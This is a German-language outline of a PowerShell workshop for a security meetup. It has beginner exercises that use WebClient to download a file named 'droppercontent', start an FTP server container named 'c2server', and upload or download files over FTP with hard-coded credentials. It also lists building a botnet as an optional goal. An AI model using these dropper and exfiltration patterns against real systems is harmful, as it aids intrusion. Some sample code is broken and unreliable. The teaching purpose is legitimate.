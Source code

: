 # Motivation
 
 Ziel: Workshop Powershell
 
 Rahmen: Security Meetup öffentliche Veranstaltung
 Publikum: Pentester, Admins, Entwickler
 
 (Optionales Ziel: Botnetz entwickeln)
 
# Ablauf
 
 Wie findet man sich zurecht in Powershell wenn man von Linux kommt
 
 Theorie-Praxis-Theorie-Praxis...
 
# Powershell zum Laufen bekommen
 
 Linux: snap
 Windows: vorinstalliert
 
# Hello World
 
## Übungsbeschreibung
 
 Gib "Ich bin der L77t H4x0r" auf dem Bildschirm aus
 
## Hilfe
 Get-Help, alias
 
## Lösung 

```
 echo "Ich bin der L77t H4x0r"
```
`
# Datei zwischenspeichern
 
## Übungsbeschreibung
 
 Schreibe "I was here, I pwnd your system, muahaha" in eine Datei info.txt
 
## Hilfe
 Nutze Google "Write string to file powershell"

## Lösung

```
"I was here, I pwnd your system, muahaha" | Out-File .\info.txt
```

# Datei auslesen 
 
## Übungsbeschreibung
 
 Lies die Datei info.txt aus und gib sie auf dem Bildschirm aus
 
 ## Lösung

# Datei herunterladen

## Übungsbeschreibung

Lade folgende Datei über powershell herunter
https://raw.githubusercontent.com/secf00tprint/powershellworkshop/main/droppercontent

## Hilfe
Recherchiere zu der System.Net.WebClient Klasse

# Datei über ftp herunterladen

## Übungsbeschreibung

https://hub.docker.com/r/garethflowers/ftp-server
fahre folgenden ftp server hoch mit folgendem Befehl.

```
docker run \
	--name c2server \
	--detach \
	--env FTP_USER=c2cmdgod \
	--env FTP_PASS=c2cmdgod \
	--network host \
	--volume /data:/home/user \
	garethflowers/ftp-server
```

## Hilfe
Schaue dir die System.Net.WebClient Klasse in bezug auf ftp an

## Beispiellösungen 

```
$file = "C:\test.txt"
$ftpuri = "ftp://test:123qwe@192.168.2.222/test.txt"
$webclient = New-Object System.Net.WebClient
$uri = New-Object System.Uri($ftpuri)
$webclient.DownloadFile($uri, $file)

$file = "C:\test.txt"
$password="test"
$user="123qwe"
$ftpuri = "ftp://"+ $user +":"+ $password + "@192.168.2.222/test.txt"
$webclient = New-Object System.Net.WebClient
$uri = New-Object System.Uri($ftpuri)
$webclient.DownloadFile($uri, $file)
```

# Datei über ftp hochladen

## Übungsbeschreibung 
Lade über das ftp protokoll folgende Datei vom beigelieferten vsftp server hoch:

## Hilfe
Ähnliches vorgehen wie in vorangegangener Aufgabe.

## Beispiellösung

```
$file = "C:\test.txt"
$password"test"
$user="123qwe"
$ftpuri = "ftp://"+ $user +":"+ $password + "@192.168.2.222/test.txt"
$webclient = New-Object System.Net.WebClient
$uri = New-Object System.Uri($ftpuri)
$webclient.UploadFile($uri, $file)
``

# timing Aufgaben


